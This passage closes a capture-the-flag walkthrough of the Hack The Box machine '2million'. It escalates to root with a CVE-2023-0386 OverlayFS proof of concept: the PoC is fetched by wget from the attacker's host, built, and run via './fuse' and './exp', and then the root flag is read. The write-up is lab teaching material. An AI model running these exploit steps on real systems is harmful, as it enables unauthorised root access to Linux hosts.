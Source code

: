Further i used wget command to get the folder.
```bash
wget -r http://10.10.14.70:8000/CVE-2023-0386
```

Now after going inside the folder, I followed the command from the Readme file of POC.
- `make all`
  - It throws some errors but three new binaries were generated which weren't there before.
  ![make all command](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/2million/make_all.png)

- `./fuse ./ovlcap/lower ./gc`
  - It hangs. So in other window I'll run the exploit.
  ![running command](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/2million/hung.png)

- `./exp'
  - and this command gave us the root.
  ![exploit](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/2million/exploit.png)

Now, simply going to /root directory we can cat out the root flag. 
![root flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/2million/root_flag.png)
Hope this walkthrough was really interesting and you got to learn something new. Thankyou.
![pwned](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/2million/2million_pwned.png)